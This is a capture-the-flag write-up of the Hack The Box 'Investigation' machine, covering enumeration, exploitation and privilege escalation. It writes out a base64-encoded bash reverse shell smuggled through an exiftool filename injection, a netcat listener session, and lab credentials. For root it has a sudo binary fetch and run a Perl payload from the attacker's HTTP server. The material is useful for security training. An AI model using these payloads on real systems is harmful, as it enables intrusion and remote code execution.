

# Investigation - Hack The Box(Medium)
## IP = 10.10.11.197

### NMAP


```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-title: Directory listing for /
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumeration

While running the nmap scan you can you have 2 web ports open, when connecting to the 8080 port you have two file, one empty and one loaded with a bunch of characters, it is encrypted. I'm of course talking about the **Windows Event Logs For Analysis.msg** file. When I have encrypted files the first thing I do is run the strings command on them to check if there are any strings that are interesting, and of course there are. 

```
$ strings Windows\ Event\ Logs\ for\ Analysis.msg
security.evtxPK
SMTP:STEVE.MORTON@EFORENZICS.HTB
```

Of course the output was way more loaded with encoded strings but this is a very important finding that will maybe help us in the future.
<br>
When entering the "http://eforenzics.htb/service.html" page you can see an upload form that requests an image, when enter a file that is not an image you get an error saying: "Error: Only JPEG and PNG are allow". When you enter a valid image it gives you a link to a page that is: "http://eforenzics.htb/analysed_images/(imagename)(extention).txt" It runs the `exiftool` on the image.
Now the smart thing here is that the exif output is outputted to a txt file meaning if you want to upload for example php code it will not execute it. 

### Exploitation


When uploading a normal image you can see the exiftool version `ExifTool Version Number  : 12.37` a quick google search and you can see there is a command injection vulnerability that includes the |(pipe) symbol, https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429 so I tried to do some stuff like I don't know maybe get a shell. So thats exactly what I'm going to do. In order to get a shell on the machine you need to do as follows:
1. First you want to encode your command with base64. 
   
   
  ```
    $ echo "bash -i >& /dev/tcp/HOST/PORT 0>&1" | bash64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44OC85MDk5IDA+JjEK
  ``` 
   
   
2. We can obtain a reverse shell by intercepting image upload POST request with Burp and changing the filename **don't forget to open a netcat listener before entering this request**:
   
   
  ``` 
    filename="$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44OC85MDk5IDA+JjEK | base64 -d | bash) |"
  ``` 
   


3. Get a shell:
   
  ```
   $ nc -lnvp 9099                  
    listening on [any] 9099 ...
    connect to [10.10.14.88] from (UNKNOWN) [10.10.11.197] 32898
    bash: cannot set terminal process group (955): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@investigation:~/uploads/1676742128$ which python3
    which python3
    /usr/bin/python3
    www-data@investigation:~/uploads/1676742128$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    <128$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@investigation:~/uploads/1676742128$
  ```


Now lets see our available users:

```

$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash

```

so we have two valid users, smorton is short for the Windows Event Logs for Analysis.msg file, so now lets really open in it I opened it on windows because it's a microsoft outlock message, but if you're using linux than you can use msgconvert and after that add it to thunderbird and you'll get it.
So, we can see a interesting zip file called evtx-logs.zip inside there is a file called security.evtx "security.evtx" is a Windows event log file that records security-related events and activities on a Windows system. So I'm going to use windows for this but Linux users can use wine with evtxdumb and it'll work perfect.

#### Finding Creds

So when opening the file you can see an Event Viewer, and a lot of logs, now of course not all logs are necessary so I'm not going to check each and evrey one of them instead I can use the find option and try and find interesting, and not surprisingly when searching for the keyword: "Password" you can see the default password for the eforenzics server. 




Now after we know the smorton user we can the default password on him.

`smorton:Def@ultf0r3nz!csPa$$`

```

$ ssh smorton@10.10.11.197                              
smorton@10.10.11.197's password: Def@ultf0r3nz!csPa$$

smorton@investigation:~$ cat user.txt
caa386a7de9ce651d6b2124c27539ab5

```

### Priv Esc

Firstly lets run `sudo -l` to see if we have some sudo permissions.

```

smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary

```

As you can see you can run a binary that we don't know nothing about. So transfer that binary file to your host and open it in Ghidra. 

We got part in this program the first is bypassing all filter checks, second is understanding whats going on with the curl functions.

#### Part 1: Filter check bypass

```

undefined8 main(int param_1,long param_2)
{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 curl;
  char *__s;
  char *__s_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");

```

We want to get to print "Running...", we're going to do that by going if by if. 

So the first if checks for if the `param_1` parameter is not equal to 3 so if it is 3 it won't exit. The first int argument in the main function is always the argument counter, meaning that we need 3 arguments(including the running of the function) to bypass this if statement so the following will do great: 

`$ sudo /usr/bin/binary 1 1`

now the `param_1` variable will be equal to 3.


Second if: checks if we're running the program as root which we are.


Third if: in summary it checks if the second argument `param_2` is equal to the string "lDnxUysaQn". I'll show you why: 

```
#include <stdio.h>
#include <string.h>

int main(int param1, long param2)
{
    printf("%s", *(char**)(param2 + 0x10));
}
```

```
$ ./a.out AA BB
BB
```

So we can see that `param_2 + 0x10` is the second argument. So I we run the program with the "lDnxUysaQn" string it should bypass the if.

```

smorton@investigation:/tmp/test1$ sudo /usr/bin/binary 0 lDnxUysaQn
Running...                                                        
Exiting...

```

Great, part 1 done.

#### Part 2: Understanding the curl functions


```

  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  curl = curl_easy_init();
  curl_easy_setopt(curl,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(curl,0x2711,__stream);
  curl_easy_setopt(curl,0x2d,1);
  iVar2 = curl_easy_perform(curl);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(curl);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }

```

Lets begin:
firstly the `__stream` opens a file with the name of the second argument meaning it has to be "lDnxUysaQn" because of the if check. Second a Curl request is created with the `param_2 + 8` as the url, lets check what is that: 

edit: `printf("%s", *(char**)(param2 + 8));`

```

$ ./a.out AA BB
AA

```

As you can see `param_2 + 8` is the first argument. 

So that means that the Curl request uses the first argument as its url. So that means to enter the if statement we need to have real url because it wouldn't return 0(true) if the url wouldn't be real. Now after entering the if statement the next lines use the snprintf and malloc functions to create a copy of the URL specified in the first argument then:

```
iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
__s_00 = (char *)malloc((long)iVar2 + 1);
snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
```

these lines use `snprintf` and `malloc` to create a command string to be executed by the system function. The command is a `perl` script located in the current directory, with the filename being the copied URL from the first argument.

So if you understand that you'll now that we want to create a `perl` payload that runs the just:

```
$ cat root.pl     
exec "/bin/bash";
```

and now create a http server, we can do that with python:

`$ python3 -m http.server 80`

```
$ sudo /usr/bin/binary http://10.10.14.17/root.pl lDnxUysaQn 
Running... 
root@investigation:~# cat root.txt
2d1f5807ef0f08da03e076836ca2d5fb
```